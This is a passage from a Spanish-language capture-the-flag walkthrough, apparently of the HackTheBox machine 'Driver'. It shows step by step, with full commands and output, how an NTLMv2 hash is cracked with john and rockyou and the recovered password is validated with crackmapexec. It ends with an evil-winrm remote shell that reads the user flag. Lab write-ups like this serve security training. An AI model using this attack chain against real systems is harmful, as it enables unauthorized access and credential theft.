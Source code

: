 - Ahora simplemente crackeamos el hash.

```bash
➜  content john -w:/usr/share/wordlists/rockyou.txt hash
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)
1g 0:00:00:00 DONE (2024-04-02 19:25) 8.333g/s 264533p/s 264533c/s 264533C/s !!!!!!..225566
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

- Verificamos que son correctas.

```bash
➜  content crackmapexec smb 10.129.250.229 -u 'tony' -p 'liltony'
SMB         10.129.250.229  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.250.229  445    DRIVER           [+] DRIVER\tony:liltony
```

- Como tenemos el puerto de `smb` abierto podemos comprobar si tenemos acceso de escritura o del algún otro recurso compartido.

```bash
➜  content crackmapexec smb 10.129.250.229 -u 'tony' -p 'liltony' --shares
SMB         10.129.250.229  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.250.229  445    DRIVER           [+] DRIVER\tony:liltony
SMB         10.129.250.229  445    DRIVER           [+] Enumerated shares
SMB         10.129.250.229  445    DRIVER           Share           Permissions     Remark
SMB         10.129.250.229  445    DRIVER           -----           -----------     ------
SMB         10.129.250.229  445    DRIVER           ADMIN$                          Remote Admin
SMB         10.129.250.229  445    DRIVER           C$                              Default share
SMB         10.129.250.229  445    DRIVER           IPC$                            Remote IPC
```

- Pero no tenemos nada interesante algo que podemos hacer es ver si el usuario forma parte del grupo `Remote Management Users` para usar `evil-winrm` y conectarnos.

```bash
➜  content crackmapexec winrm 10.129.250.229 -u 'tony' -p 'liltony'
SMB         10.129.250.229  5985   DRIVER           [*] Windows 10.0 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        10.129.250.229  5985   DRIVER           [*] http://10.129.250.229:5985/wsman
WINRM       10.129.250.229  5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

- Y bueno podemos conectarnos y leer la `user flag`.

```bash
➜  content evil-winrm -i 10.129.250.229 -u tony -p liltony

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> type C:\Users\tony\Desktop\user.txt
3bc6aa3a19aa59e9524f16993158ab66
```